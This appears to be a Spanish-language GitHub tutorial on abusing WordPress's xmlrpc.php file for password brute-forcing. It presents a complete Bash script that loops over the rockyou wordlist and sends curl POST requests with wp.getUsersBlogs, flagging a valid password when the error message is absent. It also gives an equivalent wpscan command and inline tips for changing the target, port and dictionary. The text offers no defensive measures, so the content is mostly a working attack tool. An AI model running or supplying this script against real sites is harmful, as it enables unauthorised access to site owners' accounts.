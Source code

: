 
# Descripción

Cómo abusar del archivo **xmlrpc.php** para mediante la creación de un script de Bash aplicar fuerza bruta. El objetivo será demostrar cómo los atacantes pueden utilizar este archivo existente en WordPress para intentar descubrir credenciales válidas y comprometer la seguridad del sitio web.

Para lograrlo, crearemos un script de Bash en el cual emplearemos la herramienta curl para enviar solicitudes XML-RPC al archivo xmlrpc.php del sitio web WordPress. A través del método **wp.getUsersBlogs**, enviaremos una estructura XML que contendrá el nombre de usuario y la contraseña a probar.

En caso de que las credenciales no sean correctas, el servidor responderá con un mensaje de error que indica que las credenciales son incorrectas. Sin embargo, si las credenciales son válidas, la respuesta del servidor será diferente y no incluirá el mensaje de error.

De esta forma, podremos utilizar la respuesta del servidor para determinar cuándo hemos encontrado credenciales válidas y, de esta forma, tener acceso al sitio web de WordPress comprometido.


**El script es equivalente al siguiente comando de wpsscan para fuerza bruta:**

``wpscan --url https://ejemplo.com:80 -U usuario -P /usr/share/wordlists/rockyou.txt``



```bash
	#!/bin/bash

	function ctrl_c(){ 
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
	}
 

	# Ctrl+C
	trap ctrl_c SIGINT


	function createXML(){  
        password=$1
        xmlfile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall>    
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>USER</value></param>                  <-- *Debemos ingresar el valor del usuario previamente descubierto*
	<param><value>$password</value></param>             
	</params> 
	</methodCall>"""


        echo $xmlfile > file.xml

        response=$(curl -s -X POST "https://ejemplo.com:80/xmlrpc.php" -d@file.xml)  <-- *debemos cambiar la direccion y puerto deseado y el nombre de archivo correspondiente*

        if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then  <-- *el tipo de respuesta según la que nos devuelva la página objetivo*
        echo -e "\n[+] La contraseña para el usuario es $password"
        exit 0
        fi
	}
 
	
	cat /usr/share/wordlists/rockyou.txt | while read password; do      <-- *Cambiaremos la ruta en caso de querer usar otro diccionario*
        createXML $password
	done
```
